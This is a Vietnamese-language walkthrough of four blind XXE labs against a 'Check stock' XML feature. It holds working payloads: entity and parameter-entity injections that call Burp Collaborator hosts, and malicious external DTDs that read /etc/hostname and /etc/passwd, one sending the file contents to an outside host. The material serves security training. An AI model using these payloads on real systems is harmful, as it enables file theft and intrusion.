 # Blind XXE with out-of-band interaction
## Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/c4e4879e-fd4a-48dd-be7b-a0026156528b)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/c959594f-458a-4565-86b6-94f133f2d92d)

Ta sẽ tiến hành inject payload sâu vào value `<productId>`, đồng thời sử dụng `Burp Collab` để hứng được gói tin được gửi ra ngoài
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> ]>
```
![image](https://github.com/user-attachments/assets/5ed72244-8255-4219-ba5f-f11c1e83683f)

Quay lại tab `Collaborator` sẽ hứng được request và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/c1009cc0-717c-4914-af65-d88523ad4f92)

## Flag
![image](https://github.com/user-attachments/assets/0a09e66c-350e-49ca-9e1c-745458d6ba93)

# Blind XXE with out-of-band interaction via XML parameter entities
## Target Goal
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/dc798007-a016-4abd-874e-d739136d33b3)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/59a8f0d5-2224-40ac-934b-93ef1b7c47b3)

Ta sẽ tiến hành inject payload sâu vào value `<productId>`, đồng thời sử dụng `Burp Collab` để hứng được gói tin được gửi ra ngoài. Theo như Response, quả thực khi trỏ tới XML Entity ta đã bị trang web chặn lại
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> ]>
```
![image](https://github.com/user-attachments/assets/2bbe2db7-ed8d-4588-b20c-55764e996aae)

Để thực hiện **Out-Of-Band Interaction** trong trường hợp này, mình sẽ phải sửa `DOCTYPE` để không chỉ định nghĩa `Entity` có thể trực tiếp truy vấn tới nó luôn mà không thông qua productID.  Do đó thay vì sử dụng XML entity, ta sẽ định nghĩa 1 XML parameter Entity với payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> %xxe; ]>
```

![image](https://github.com/user-attachments/assets/dda52fa7-9bc7-4425-b03f-6afd9ce6d28f)

Dù trả về `XML parsing error` nhưng trong BurpCollab đã xuất hiện kết nối DNS và HTTP tức là hứng được request và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/6bf678ed-2aad-4984-b182-9cbdaa530943)

## Flag
![image](https://github.com/user-attachments/assets/f8cab389-2f90-45e5-b627-a7f3a416034a)

# Exploiting blind XXE to exfiltrate data using a malicious external DTD
## Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/2ebc71f1-78fb-4d7e-9648-16e224ac4f6c)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/1fe49bc7-cba2-47b1-80bc-5d2e9e8f6da1)

Đầu tiên ta xác nhận có kết nối tới BurpCollab với payload:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://wbbon1ycp405g804xc71lztj6ac10rog.oastify.com"> %xxe; ]>
```

![image](https://github.com/user-attachments/assets/55272b78-693f-4a4e-8bba-c8cecd60a183)

Tiếp theo truy cập vào `Exploit Server` được bài lab cung cấp và paste payload này vào Body. `Store` lại

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://uus1buupthb8nyod33fcs5wpogu7ix6m.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

![image](https://github.com/user-attachments/assets/fa69d86d-61cd-464d-9bf5-5f5fdb3c8971)

Copy đường dẫn tới file. Sau đó kết hợp với XML Paremeter phía trước để tạo ra payload hoàn chỉnh:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ab70010039193fb80c166ec011700db.exploit-server.net/exploit.dtd"> %xxe; ]>
```

Quay lại Collaborator lấy được code và hoàn thành bài lab

![image](https://github.com/user-attachments/assets/c609ebe9-d6bc-435a-9243-10527bcb7e75)

## Flag
![image](https://github.com/user-attachments/assets/abc1dd1d-400c-4e31-9ef0-93a374758f1a)

# Exploiting blind XXE to retrieve data via error messages
## Target Goal
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the`/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.
## Analysis
Đối với mục tiêu của bài lab, ta sẽ tấn công vào tính năng `Check stock`

![image](https://github.com/user-attachments/assets/ca7567e8-72fc-4535-804f-0b9196276c5e)

Sử dụng Burp để xem nội dung gói tin 

![image](https://github.com/user-attachments/assets/74c76974-56ab-4a61-a244-d1294abab789)

Payload này sẽ đọc nội dung của file mục tiêu nhưng sau đó sẽ chèn vào đường dẫn `invalid/` . Đúng như tên gọi thì filepath này thường sẽ không hợp lệ -> Gây ra lỗi -> In ra Error message:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Giống với bài lab trước: Copy vào `Exploit Server` -> `Store` -> Định nghĩa XML Parameter với đường dẫn tới DTD file trên exploit server -> Chèn vào XML của request `checkStock`

![image](https://github.com/user-attachments/assets/c5be980a-45bf-4da1-9641-d31f9b68ab16)
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a3b00f0034fcb8186a2dd44018200cf.exploit-server.net/exploit"> %xxe; ]>
```
![image](https://github.com/user-attachments/assets/ec39a48d-8d2a-4d94-904b-7a1fdca8c57a)

## Flag
![image](https://github.com/user-attachments/assets/ac59c477-b6a5-4938-a0ee-1723cf9cb8ca)






